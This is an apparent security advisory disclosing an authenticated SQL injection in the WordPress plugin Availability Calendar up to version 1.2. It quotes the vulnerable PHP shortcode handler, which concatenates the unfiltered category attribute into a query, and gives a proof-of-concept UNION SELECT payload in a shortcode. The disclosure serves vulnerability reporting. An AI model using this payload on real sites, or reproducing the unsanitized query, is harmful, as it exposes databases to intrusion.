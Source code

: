 # Availability Calendar<=1.2 - Authenticated SQL Injection
## Description
    When the plug-in uses short code, Unfiltered parameters, resulting in SQL Injection issue.  
## Affects Plugins
    Availability Calendar<=1.2 (the latest version at this time)
    https://cn.wordpress.org/plugins/availability-calendar/
## Author
    xiahao@webray.com.cn inc 
## Detail
    The issue is occured at file availability-calendar/public/includes/frontend.php. line 59.Unfiltered parameters $category_short
```
 public function OWAC_calendar_front_shortcode($atts = array())
{	
	$atts = shortcode_atts(array('category' => ''), $atts);
	$category_short = $atts['category'];

   /**
	* Get Event and Category value
	*/
	global $wpdb;
	$contactus_table = $wpdb->prefix."OWAC_event";
	$total_pages_sql = $wpdb->get_results("SELECT * FROM $contactus_table WHERE 1 AND `flag`='0'");
	$ec_category_table = $wpdb->prefix."OWAC_category";
	if($category_short != ""){
		$ec_category_sql = $wpdb->get_results("SELECT * FROM $ec_category_table WHERE 1 AND `cat_id` IN (".$category_short.") AND `flag`='0' ORDER BY `cat_ord_num` ASC");
	}else{
		$ec_category_sql = $wpdb->get_results("SELECT * FROM $ec_category_table WHERE 1 AND `flag`='0' ORDER BY `cat_ord_num` ASC");
	}
	$settings_options = get_option( 'OWAC_settings_option' );
	$display_calendar_month = preg_replace("/[^0-9\.]/", '', $settings_options['display_calendar_month']);
	$language_display = $settings_options['language_display'];
	$language = owac_language();
	foreach($language as $key => $va){
		if($language_display == $key){
			setlocale(LC_TIME, array(''.$va['code'].'.UTF-8',''.$va['code'].'@euro',''.$va['code'].'',$key));
		}
	}

```
## Proof of Concept
1,add the "Availability Calendar"->"Category"->"Add New"
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/20210804105242.png "Wordpress plugin sqli")
2,Add the shortcode [availabilitycalendar category="5) UNION select user(),user(),user(),user(),user(),user(),user() -- "] on the content of a page/post/etc. to add the plugin into a page
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/20210804105249.png "Wordpress plugin sqli")
3,Visit the content of a page/post/etc. We can see the alert page.
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/20210804105255.png "Wordpress plugin sqli")
